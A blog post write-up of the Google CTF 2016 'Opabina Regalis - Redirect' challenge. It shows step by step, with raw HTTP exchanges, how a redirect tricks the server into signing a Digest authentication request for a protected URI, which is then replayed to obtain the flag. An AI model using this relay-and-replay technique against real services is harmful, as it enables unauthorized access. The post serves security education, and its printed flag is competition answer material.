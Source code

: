 ```yaml
---
layout: post
title: Google CTF 2016 - Opabina Regalis - Redirect
---
```

> Following on from Opabina Regalis - Token Fetch, can you get access to the
> ``/protected/secret`` URI?
>
> Listening on port 13001 on
> ``ssl-added-and-removed-here.ctfcompetition.com``.

This challenge also uses protocol buffers. We're using full duplex sockets to
act as both a client and a server on the same connection. When we first connect,
we are sent a request to ``/protected/not-secret``. The goal is to get the
server to send us an authenticated request to ``/protected/secret``, so that we
can send an identical request right back and get an authenticated response.

Initial request from server:

{% highlight http %}
GET /protected/not-secret HTTP/1.1
User-Agent: opabina-regalis.go
{% endhighlight %}

The hash used in Digest auth includes the request URI. If the server gives us a
hash for ``/protected/not-secret``, it won't authorize us to
``/protected/secret``. We'll respond with a 302 redirect response. The server
will make another request, this time for ``/protected/secret``.

{% highlight http %}
GET /protected/secret HTTP/1.1
User-Agent: opabina-regalis.go
{% endhighlight %}

Now we make our own request to ``/protected/secret`` to get the WWW-Authenticate
challenge header.

{% highlight http %}
HTTP/1.1 401 Unauthorized
WWW-Authenticate: Digest realm="In the realm of hackers",qop="auth",nonce="b75493fdbd1f8f81",opaque="b75493fdbd1f8f81"
{% endhighlight %}

Send this exact response at the server (responding to its ``/protected/secret``)
and we should have a valid Authorization header.

{% highlight http %}
GET /protected/secret HTTP/1.1
User-Agent: opabina-regalis.go
Digest username="google.ctf",realm="In the realm of hackers",nonce="b75493fdbd1f8f81",uri="/protected/secret",qop="auth",nc=a26312,cnonce="78cd3f62f0ae784e",response="d90872a589d396b0f3fc233c229c8d3b",opaque="b75493fdbd1f8f81"
{% endhighlight %}

Send the exact same request back at the server, and it will auth us.

{% highlight http %}
HTTP/1.1 200 OK
Server: opabina-regalis.go

CTF{Why,do,fungi,have,to,pay,double,bus,fares----because,they,take,up,7oo,Mushroom}
{% endhighlight %}
